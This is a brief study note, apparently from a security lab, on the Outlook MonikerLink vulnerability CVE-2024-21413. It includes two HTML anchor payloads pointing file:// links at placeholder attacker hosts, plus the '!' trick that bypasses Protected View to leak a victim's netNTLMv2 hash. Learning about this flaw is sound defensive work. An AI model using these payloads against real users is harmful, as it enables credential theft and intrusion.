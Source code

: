 AKA CVE-2024-21413

https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2024-21413

Using this Outlook vulnerability, an attacker can send a hyperlink (Moniker Link). If the user clicks it, Outlook sends the user's NTLM credentials to the attacker

RCE (Remote Code Execution) is also possible using Moniker Link

Moniker Link: not a classical URL pointing to a website, but a link in Microsoft Office, telling Office to use built-in "moniker provider" to handle the link

The link is then hidden under seemingly legitimate buttons / display text (using CTRL+K or HTML code)
*Example*: 
```html
<a href="file://ATTACKER_IP/test">Click me</a>
```
This would be picked up by Outlook's Protected View

Protected View can be bypassed by including a "!" and some text:
```html
<a href="file://ATTACKER_MACHINE/test!exploit">Click me</a>
```

The share doesn't need to exist on the remote device!
An authentication attempt will occur regardless, leading to the victim's Windows netNTLMv2 hash being sent to the attacker

